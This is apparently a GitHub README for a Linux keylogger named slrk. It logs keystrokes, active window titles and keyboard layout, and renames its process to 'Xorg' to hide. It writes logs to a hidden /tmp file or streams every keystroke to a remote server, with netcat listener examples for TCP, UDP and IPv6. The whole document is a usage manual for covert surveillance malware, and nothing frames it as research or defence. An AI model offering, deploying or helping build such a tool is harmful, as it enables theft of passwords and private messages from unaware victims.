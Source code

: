 # SimpleLocal&RemoteKeylogger

##DESCRIPTION:

- Simple keylogger that runs on Linux either locally or remotely.
- It shows the active window on which the target is writing.
- It shows the keyboard layout(e.g.: us, it, colemak, etc..).
- Process name is renamed as "Xorg".
- It works with both TCP and UDP and with ipv6 too.
- It must be run as root.

##SYNOPSIS:
```
#./slrk [OPTIONS]
```
##OPTIONS:
```
-d <input-device>:                  If not specified, the default device is '/dev/input/by-path/***kbd'
-o <output-file>:                   It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
-m remote -a <IP-ADDR> -p <PORT>:   It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>
```
##EXAMPLES:

- TCP:
```
Server$ nc -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- UDP:
```
Server$ nc -u -lvp 8888 > logger.txt
Client#./slrk -m remote -a 127.0.0.1 -p 8888
```
- IPv6:
```
Server$ nc -6 -lvp 8888 > logger.txt
Client#./slrk -m remote -a ::1 -p 8888
```
##NOTES:
####Supported keyboards:
- QWERTY: us, es, it. 
- AZERTY: fr.
- QWERTZ: de.
- DVORAK: us.
- COLEMAK
- default: qwerty-us<br>

You may also change keyboard during `slrk` execution with:
```bash
$setxkbmap dvorak
```
and `slrk` will detects the new layout.


